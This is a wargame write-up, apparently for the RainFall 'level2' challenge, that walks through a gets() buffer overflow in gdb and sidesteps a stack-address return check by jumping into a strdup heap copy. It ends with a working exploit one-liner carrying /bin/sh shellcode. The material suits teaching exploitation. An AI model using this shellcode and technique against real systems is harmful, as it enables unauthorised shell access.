

# level2

The binary presents doesn't take any arguments. It reads from `stdin` and prints it back to `stdout`. 


## Step 1
Decompile the binary with `Ghidra` gives the following code: [source.c](https://github.com/lorispuchol/rainfall/blob/main/level2/source.c) 

## Step 2
Use [Buffer overflow pattern generator
](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) to find the offset of the return address.

```console
level2@RainFall:~$ gdb level2
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

> Offset is 80

## Step 3

Try repeat the same process than level1 but it doesn't work. it print the return address in the stack. and exit

Indeed there is a __stack protector__ which verify if return is in the `0xb.......` range. 

```console
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
}
```

So we can't drop at the start of the buffer (same for libc and environment variables) which are in `0xb.......` addresses.



> High address are like `0xffffffff` and low address are like `0x08080000`. environnement variables are also in the high address range.


## Goal
We can see that the buffer is dup with `strdup`. `strdup` malloc a new buffer and copy the string in it.

Goal is to drop in the `strdup` buffer by finding the return address of the `strdup` function.

```console
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
=> 0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6dc	-1073744164
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6c0	0xbffff6c0
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853d	0x804853d <p+105>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

return address of `strdup` is `0x804a008`

can be found with `ltrace` too

## Exploit

```bash
(python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * (80-21) + "\x08\xa0\x04\x08"'; cat) | /home/user/level2/level2
```
use a shorter shellcode found in [Shellstorm](https://shell-storm.org/shellcode/files/shellcode-752.html)